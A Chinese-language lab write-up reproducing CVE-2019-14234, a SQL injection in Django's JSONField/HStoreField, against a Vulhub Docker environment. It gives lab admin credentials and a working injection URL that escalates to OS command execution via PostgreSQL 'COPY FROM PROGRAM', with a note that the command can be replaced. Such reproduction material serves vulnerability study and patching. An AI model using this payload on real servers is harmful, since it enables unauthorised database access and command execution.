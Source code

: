 # Django JSONField/HStoreField SQL 注入漏洞 CVE-2019-14234

## 漏洞描述

Django 在 2019 年 8 月 1 日发布了一个安全更新，修复了在 JSONField、HStoreField 两个模型字段中存在的 SQL 注入漏洞。

参考链接：

- https://www.djangoproject.com/weblog/2019/aug/01/security-releases/
- https://www.leavesongs.com/PENETRATION/django-jsonfield-cve-2019-14234.html

该漏洞需要开发者使用了 JSONField/HStoreField，且用户可控 queryset 查询时的键名，在键名的位置注入 SQL 语句。Django 自带的后台应用 Django-Admin 中就存在这样的写法，我们可以直接借助它来复现漏洞。

## 漏洞影响

```
Django (1.11.x) Version < 1.11.23
Django (2.1.x) Version < 2.1.11
Django (2.2.x) Version < 2.2.4
```

## 环境搭建

Vulhub 执行如下命令编译及启动一个存在漏洞的 Django 2.2.3：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8000` 即可看到 Django 默认首页。

## 漏洞复现

首先登陆后台 `http://your-ip:8000/admin/`，用户名密码为 `admin`、`a123123123`。

登陆后台后，进入模型 `Collection` 的管理页面 `http://your-ip:8000/admin/vuln/collection/`：

![image-20220222163035330](images/202202221630392.png)

然后在 GET 参数中构造 `detail__a'b=123` 提交，其中 `detail` 是模型 `Collection` 中的 JSONField：

```
http://your-ip:8000/admin/vuln/collection/?detail__a%27b=123
```

可见，单引号已注入成功，SQL 语句报错：

![image-20220222163246655](images/202202221632754.png)

命令执行，执行 `touch /tmp/awesome_poc`，可以替换成其他命令并且执行。

```
http://your-ip:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcopy cmd_exec FROM PROGRAM 'touch /tmp/awesome_poc'--%20 
```

提示 `no results to fetch` 即为执行成功。

![image-20220222164004504](images/202202221640588.png)
